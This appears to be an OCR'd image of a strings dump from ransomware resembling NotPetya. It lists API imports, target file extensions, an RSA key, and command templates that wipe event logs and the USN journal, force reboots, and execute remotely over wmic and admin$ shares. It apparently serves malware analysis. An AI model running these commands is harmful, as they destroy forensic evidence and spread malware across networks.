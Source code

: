 ```
CreateThread
GetTickCount
CreateProcessW
GetEnvironmentvariableW
ConnectNamedPipe
CreateNamedPipeW
LoadLibraryA
VirtualAlloc
CryptGenRandom
CryptExportKey
CryptEncrypt
CryptGenKey
CryptDestoryKey
InitiateSystemShutdownExW
CreateProcessAsUserW
DhcpEnumSubnets
DhcpEnumSubnetClients
NetServerEnum
AdjustTokenPrivileges
perfc.dat
MIIBCgKCAQEAxP/VqKc0yLe9JhVqFMQGwUITO6WpXWnKSNQAYT0O65Cr8PjIQInTeHkXEjfO2n2JmURWV/uHB0ZrlQ/wcYJBwLhQ9EqJ3iDqmN19Oo7NtyEUmbYmopcq+YLIBZzQ2ZTK0A2DtX4GRKxEEFLCy7vP12EYOPXknVy/+mf0JFWixz29QiTf5oLu15wVLONCuEibGaNNpgq+CXsPwfITDbDDmdrRIiUEUw6o3pt5pNOskfOJbMan2TZu6zfhzuts7KafP5UA8/0Hmf5K3/F9Mf9SE68EZjK+cIiFlKeWndP0XfRCYXI9AJYCeaOu7CXF6U0AVNnNjvLeOn42LHFUK4o6JwIDAQAB
C:\Windows;
.3ds.7z.accdb.ai.asp.aspx.avhd.back.bak.c.cfg.conf.cpp.cs.ctl.dbf.disk.djvu.doc.docx.dwg.eml.fdb.gz.h.hdd.kdbx.mail.mdb.msg.nrg.ora.ost.ova.ovf.pdf.php.pmf.ppt.pptx.pst.pvi.py.pyc.rar.rtf.sln.sql.tar.vbox.vbs.vcb.vdi.vfd.vmc.vmdk.vmsd.vmx.vsdx.vsv.work.xls.xlsx.xvd.zip.
Microsoft Enhanced RSA and AES Cryptographic Provider
README.TXT
\\.\pipe\%ws
TERMSRV/
127.0.0.1
SeTcbPrivilege
SeShutdownPrivilege
SeDebugPrivilege
C:\Windows\
\cmd.exe
wevtutil cl Setup & wevtutil cl System & wevtutil cl Security & wevtutil cl Application & fsutil usn deletejournal /D %c:
schtasks %ws/Create /SC once /TN "" /TR "%ws" /ST %02d:%02d
at %02d:%02d %ws
shutdown.exe /r /f
/RU "SYSTEM"
dllhost.dat
-d C:\Windows\System32\rundll32.exe "C:\Windows\%s",#1
wbem\wmic.exe
%s /node:"%ws" /user:"%ws" /password:"%ws"
process call create "C:\Windows\System32\rundll32.exe \"C:\Windows\%s\" #1
\\%s\admin$
\\%ws\admin$\%ws
```
